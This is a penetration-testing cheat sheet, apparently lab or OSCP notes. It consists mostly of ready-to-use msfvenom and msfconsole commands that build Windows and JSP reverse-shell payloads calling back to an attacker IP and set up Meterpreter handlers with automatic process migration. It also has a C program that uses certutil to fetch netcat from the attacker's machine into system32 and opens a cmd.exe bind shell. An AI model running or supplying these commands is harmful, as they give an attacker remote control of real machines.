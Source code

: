 ##### Widows reverse tcp 443
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.152 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.222; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; set AutoRunScript post/windows/manage/migrate; exploit"
```

##### JSP reverse tcp 443
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.152 LPORT=443 -f raw > shell.jsp
	
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.222; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; exploit"

```
##### All at once - Reverse TCP
set RHOST to the IP of the host you are attacking
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.14; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set AutoRunScript post/windows/manage/migrate; exploit"

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.13; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; set AutoRunScript post/windows/manage/migrate; exploit"

```

##### All at once - Reverse HTTPS
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.13; set PAYLOAD windows/meterpreter/reverse_https;  set LHOST tun0; set LPORT 8443; set AutoRunScript post/windows/manage/migrate; exploit"

```
#### Auto Migrate Process
Before you run exploit run this
```
set AutoRunScript post/windows/manage/migrate
```
### Windows Bind Shell

#### Using C to create a bind shell on Windows

##### File winshell.c
This file will:
1. Using the native "certuil.exe", download nc.exe.txt from the kali box and save it as C:\windows\system32\nc.exe
2. Create a listening socket on TCP 4444 (Windows Machine)
```
#include <stdlib.h>
#include <windows.h>
int main ()
{

        int i;

        i = system ("certutil -urlcache -split -f http://192.168.119.152/nc.exe.txt c:\\windows\\system32\\nc.exe");
        Sleep(10000); // 10 seconds (10000 milliseconds)
        i = system ("nc.exe -nlvp 4444 -e cmd.exe");

                return 0;
}
```